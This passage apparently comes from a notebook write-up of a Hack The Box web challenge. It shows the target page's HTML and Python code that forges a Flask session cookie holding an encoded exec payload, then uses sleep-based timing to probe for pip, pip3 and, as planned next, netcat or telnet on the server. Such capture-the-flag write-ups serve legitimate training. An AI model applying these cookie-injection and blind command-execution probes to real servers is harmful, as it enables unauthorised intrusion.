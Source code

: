 

    <!DOCTYPE html>\n<html><head>\n<meta content="width=device-width, initial-scale=1" name="viewport"/>\n<meta content="makelaris" name="author"/>\n<title>\U0001f30c on Venzenulon 9</title>\n<link crossorigin="anonymous" href="//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" rel="stylesheet"/>\n<link href="//fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css"/>\n<style>html, body {background-image: url('//s-media-cache-ak0.pinimg.com/736x/7b/fe/d2/7bfed2ffe038beb673efd872cd44ba2c.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>\n</head>\n<body>\n<img class="mx-auto d-block img-responsive" src="//media3.giphy.com/media/eO8zgwAt3MVW/giphy.gif"/>\n</body>\n<!-- /debug -->\n</html>



The HTB app sleeps. This means that on the hosting machine `pip` is indeed likely to be installed.

We can abtract this logic in a procedure to test if a package/command (with a helper invoked by `-h`) is installed.


```python
import time
def test_command(target_url,cmd):
    pl_basic = """import os,time\nif os.system('{} -h')==0: time.sleep(10)""".format(cmd)
    pl_for_cookie = make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_basic))
    cookie = from_payload_to_cookie_for_flask(pl_for_cookie,secret_key)
    s = time.time()
    print("Testing if {} is available.....".format(cmd))
    res = get_response_from_the_app_using_cookie(target_url,cookie)
    e = time.time()
    if (e-s)>=10:
        print("{} is probably AVAILABLE".format(cmd))
    else:
        print("{} is NOT AVAILABLE".format(cmd))


```


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820


We use the procedure just wrote to test again for `pip` and for others.


```python
test_command(url, "pip")
```

    Testing if pip is available.....
    pip is probably AVAILABLE



```python
test_command(url, "pip3")
```

    Testing if pip3 is available.....
    pip3 is NOT AVAILABLE


We would like to know if any package that could turn out very useful for the attack is installed. For instance it could come very handy knowing that netcat or telnet are installed.
